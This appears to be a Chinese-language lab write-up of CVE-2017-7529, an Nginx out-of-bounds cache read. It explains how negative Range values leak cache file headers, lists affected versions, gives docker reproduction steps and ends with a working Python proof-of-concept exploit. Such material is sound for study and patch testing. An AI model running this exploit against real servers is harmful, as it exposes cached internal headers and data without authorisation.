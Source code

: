 （CVE-2017-7529）Nginx 越界读取缓存漏洞
=======================================

一、漏洞简介
------------

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括"文件头"+"HTTP返回包头"+"HTTP返回包体"。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的"HTTP返回包体"返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600,
-9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于"HTTP返回包体"前的"文件头"、"HTTP返回包头"等内容。

二、漏洞影响
------------

-   Nginx Nginx:1.13.2
-   Nginx Nginx:1.13.1
-   Nginx Nginx:1.13.0
-   Nginx Nginx:1.11.13
-   Nginx Nginx:1.11.12

三、复现过程
------------

运行测试环境：

    docker-compose up -d

访问`http://www.0-sec.org:8080/`，即可查看到Nginx默认页面，这个页面实际上是反向代理的8081端口的内容。

调用`python3 poc.py http://www.0-sec.org:8080/`，读取返回结果

![](resource/(CVE-2017-7529)Nginx越界读取缓存漏洞/media/rId24.png)

可见，越界读取到了位于"HTTP返回包体"前的"文件头"、"HTTP返回包头"等内容。

如果读取有误，请调整poc.py中的偏移地址（605）。

### poc

    #!/usr/bin/env python
    import sys
    import requests

    if len(sys.argv) < 2:
        print("%s url" % (sys.argv[0]))
        print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
        sys.exit()

    headers = {
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
    }
    offset = 605
    url = sys.argv[1]
    file_len = len(requests.get(url, headers=headers).content)
    n = file_len + offset
    headers['Range'] = "bytes=-%d,-%d" % (
        n, 0x8000000000000000 - n)

    r = requests.get(url, headers=headers)
    print(r.text)

参考链接
--------

> https://vulhub.org/\#/environments/nginx/CVE-2017-7529/
